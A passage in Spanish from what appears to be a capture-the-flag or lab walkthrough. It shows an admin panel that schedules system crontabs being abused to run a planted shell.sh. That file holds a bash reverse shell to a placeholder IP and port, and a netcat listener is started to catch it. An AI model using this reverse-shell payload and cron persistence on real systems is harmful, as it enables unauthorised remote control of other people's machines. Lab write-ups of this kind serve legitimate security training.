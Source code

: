 Veremos que hemos accedido al panel de forma correcta, tambien vemos que es un panel en el que puede programar `crontabs` a nivel de sistema por lo que estamos viendo, vamos a probar a crear un `crontab` de la siguiente forma:

Antes vamos a crear un archivo con una `shell` para que lo ejecute el `crontab`.

> shell.sh

```bash
#!/bin/bash

sh -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Ahora lo configuramos para que ejecute dicho archivo que hemos dejado en `/tmp`.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-09-15 114832.png" alt=""><figcaption></figcaption></figure>

Una vez escrito todo, le daremos a `Save` para guardarlo, despues nos pondremos a la escucha de esta forma:

```shell
nc -lvnp <PORT>
```
